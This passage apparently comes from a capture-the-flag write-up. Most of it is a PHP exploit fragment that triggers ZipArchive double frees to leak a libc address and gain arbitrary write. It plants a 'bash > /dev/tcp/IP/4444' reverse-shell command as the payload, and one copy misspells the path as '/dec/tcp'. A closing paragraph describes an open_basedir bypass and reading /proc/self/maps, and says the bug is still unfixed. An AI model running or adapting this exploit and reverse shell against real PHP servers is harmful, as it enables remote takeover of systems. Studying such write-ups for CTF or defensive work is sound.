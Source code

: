 ```php=
}
unset($z[50]);
$zip = new ZipArchive;
// Double free
$zip->open('/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA', ZipArchive::CREATE);
$zip->open('/tmp/z1.zip');
$zip->open('/tmp/z1.zip');
$s=str_repeat('C',0x48);
$t=new SplFixedArray2(5);

unset($z[51]);
unset($z[52]);
$libc_addr=read_ptr($s,0x48)+ 0x2aed7c0;
print "Leak libc memory location: 0x" . dechex($libc_addr) . "\n";



$zip4 = new ZipArchive;
$zip2 = new ZipArchive;
$zip3 = new ZipArchive;

// Double free
$zip4->open('/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA', ZipArchive::CREATE);
$zip4->open('/tmp/z1.zip');
$zip4->open('/tmp/z1.zip');

$zip2->open('/tmp/BBBBBBBB', ZipArchive::CREATE);

// first 8 bytes is fd we want to overwrite
$zip2->addFromString('bash -c "bash > /dev/tcp/IP/4444 0>&1";', int_to_string($libc_addr+0x3ed8e8).'GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG');
$zip2->addFromString('bash -c "bash > /dec/tcp/IP/4444 0>&1";', "\0\0\0\0\0\0\0".'GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG');

//get our chunk, arbitary write,   size cannot change...
$zip2->addFromString('bash -c "bash > /dev/tcp/IP/4444 0>&1";', int_to_string($libc_addr+0x4f440).'GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG');

?>


```
#### open_basedir bypass

Rumor has that this exploit still works in this challenge, even if it's PHP 7.4 ~ 8. Then you can get those juicy addresses under `/proc` through `echo file_get_contents('/proc/self/maps');` Actually I didn't realize they still haven't fixed this bug...... It's almost half of a year ago.
